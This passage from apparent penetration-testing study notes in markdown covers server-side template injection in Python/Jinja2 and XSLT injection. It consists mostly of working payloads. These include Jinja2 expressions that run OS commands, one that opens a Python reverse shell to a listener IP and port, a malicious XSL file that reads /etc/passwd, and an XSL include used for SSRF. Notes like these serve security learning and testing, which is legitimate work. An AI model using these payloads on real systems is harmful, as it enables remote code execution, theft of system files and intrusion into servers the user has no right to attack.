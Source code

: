     * The above gives us index 214 for ```catch_warnings```; we can proceed with the payload we created earlier now

    * ```{{ ''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system('echo RCE test') }}``` - response shows '0', indicating the value of executed command, so it means executed without errors

    * ```{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system("touch /tmp/test1") }}``` - this creates a test file, and also gives 0 in response

    * ```{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('ls /tmp').read()}}``` - this payload confirms our file is created

    * ```{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('python -c \'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.170",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'').read()}}``` - full payload to get reverse shell, where we have included our listening IP and port as well

    * For Jinja2, we can use certain functions like ```request``` and ```lipsum``` for exploitation

    * ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}``` - executes 'id' command

    * ```{{lipsum.__globals__.os.popen('id').read()}}``` - alternative to above command

## XSLT

* Extensible Stylesheet Language Transformations (XLST) - XML-based language, used when transforming XML documents into HTML, PDF, or another XML document

* XLST server-side injection can occur when arbitrary XLST file upload is possible or when app generates XML document dynamically using malicious user input

* Example of malicious XSL file:

  ```xsl
  <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
  <xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
  </xsl:template>
  </xsl:stylesheet>
  ```

  ```shell
  # while doing the transformation, we can use the above file, readfile.xsl
  saxonb-xslt -xsl:readfile.xsl catalogue.xml
  # similarly, we can use XSL files for SSRF or fingerprinting
  ```

  ```xsl
  <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
  <xsl:include href="http://127.0.0.1:5000/xslt"/>
  <xsl:template match="/">
  </xsl:template>
  </xsl:stylesheet>
  ```
